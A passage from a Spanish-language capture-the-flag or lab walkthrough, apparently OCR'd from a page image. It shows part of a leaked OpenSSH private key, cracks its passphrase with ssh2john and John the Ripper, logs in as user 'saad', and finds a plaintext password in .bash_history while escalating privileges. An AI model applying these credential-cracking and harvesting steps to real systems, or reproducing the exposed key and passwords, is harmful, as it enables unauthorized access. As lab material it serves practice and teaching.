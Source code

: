 ```
l7H2rPQ2RDPQeRyLX12uRMcakQLY7zIEyFhH0fMw3rCTcdp/FbkOUEOfXBPkSNWHh7f411
15y/K7bkNDwSi5Ul9yt05uSSEsibJVSfKbvETEFmSQ3tdSVq0PA3ymiBzWixlNOE123KI0
Zs0fwcKpS7h0GzikbIAcrln7ozSgjMzYawbQzEyjjR2QFySMWLGHAW4N7eZ6VfP3dBJxcs
fq4rvw54iukm24T9qAnMXuj1+9joNomiScStTV98RmVy8WMs6WW4r0f7ynhN/S/LYHya+6
D2DK4fRX8v5bY9MAsuqlBIUYH0AVUieyDBnP9QsGNnlIm8TS9UuT/gv/6+sWRpg7H5jkNz
69XRxDuLKV5jVElkEAn/B3bkpkAAcfSfXJphgtYsYbrgchSGtxWMX7FurkWbd0l0WyX//E
8OWhSwGmtO24YBhqQ47nGhDa8ceAJbr0uOIVm+Klfro2D7bPX0Wm2LC65Z6OQGvhrEbQwP
nYcg+D3hFL9ZB4GfAZzwbLAP6EYJ+Tq6I/eiJ5LKs6Q32jMfITUy3wcEPkneMwdOkd35Od
Fcm9ZL3fa5FhAEdRXJrF8Oe5ZkHsj3nXLYnc2Z2Aqjl6TpMRubuu+qnaOdCnAGu1ghqQlS
ksrXEYjaMdndnvxBZ0zi9T+ywag=
-----END OPENSSH PRIVATE KEY-----
```

Para sacar la contraseña que te pedira de la clave privada haremos lo siguiente...

```shell
ssh2john id_rsa > <FILE>
```

```shell
john --wordlist=<WORDLIST> <FILE>
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sweetness        (id_rsa)     
1g 0:00:00:24 DONE (2024-05-13 15:24) 0.04111g/s 39.47p/s 39.47c/s 39.47C/s xbox360..sandy
Use the "--show" option to display all of the cracked passwords reliably
```

Una vez sepamos la contraseña nos conectamos al `ssh` con la id\_rsa...

```shell
chmod 600 id_rsa
```

```shell
ssh -i id_rsa saad@<IP>
```

### Escalada de privilegios

Si miramos lo que contiene `.bash_history` veremos lo siguiente...

```
whoami
pwd
ls -al
ls
cd ..
sudo -l
echo "saad:MyStrongestPasswordYet$4291" > creds.txt
rm creds.txt
sudo -l
whomai
whoami
pwd
ls -al
sudo -l
ls -al
pwd
whoami
```
